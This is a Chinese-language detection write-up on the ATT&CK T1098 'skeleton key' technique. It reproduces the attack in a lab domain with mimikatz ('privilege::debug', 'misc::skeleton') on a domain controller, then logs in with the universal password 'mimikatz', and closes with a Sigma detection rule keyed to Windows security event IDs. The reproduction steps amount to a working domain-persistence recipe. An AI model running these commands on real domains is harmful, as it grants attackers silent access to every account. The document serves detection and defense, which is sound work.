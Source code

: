 # T1098-win-万能密码

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在受害者环境中对凭据或某些权限级别的访问权限。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

使用万能密码（skeleton key），可以对域内权限进行持久化操作。

## 检测日志

windows 安全日志

## 测试复现

### 步骤1（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>dir \\dc.xiaomi.org\c$  
拒绝访问。

C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "admin.098" /user:xiaomi\administra
tor
命令成功完成。

C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,728,838,144 可用字节

C:\Users\xiaomi>net use
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK                     \\dc.xiaomi.org\ipc$      Microsoft Windows Network
命令成功完成。


C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ /del /y
\\dc.xiaomi.org\ipc$ 已经删除。


C:\Users\xiaomi>net use
会记录新的网络连接。

列表是空的。
```

### 步骤2（DC上执行，管理员权限）

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::skeleton" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz(commandline) # exit
Bye!
```

**系统提示Skeleton Key已经注入成功。此时，会在域内的所有账户中添加一个Skeleton key，其密码默认为“mimikatz”。接下来可以以域内任何用户的身份，配合该Skeleton Key，进行域内身份授权验证了。**

### 步骤3（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "mimikatz" /user:xiaomi\administrat
or
命令成功完成。


C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,758,198,272 可用字节

```

## 测试留痕

windows安全事件ID，多事件关联分析

## 检测规则/思路

### Sigma规则

```yml
title: Windows 万能密码
description: Windows server 2008 R2\win 7
references: https://0xsp.com/ad-attack-or-defense/ad-ttps-list
tags: T1098
status: 测试阶段
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4673  #调用权限的服务
    selection2:
        EventID: 4611  #受信任的登录进程已在本地安全机构注册
    selection3:
        EventID: 4688  #新进程创建
    selection4:
        EventID: 4689  #退出进程
    condition: all of them
    timeframe: last 5s
level: medium
```

### 建议

以上规则存在一定程度的不稳定性，谨慎使用！

## 参考推荐

MITRE-ATT&CK-T1098

<https://attack.mitre.org/techniques/T1098/>
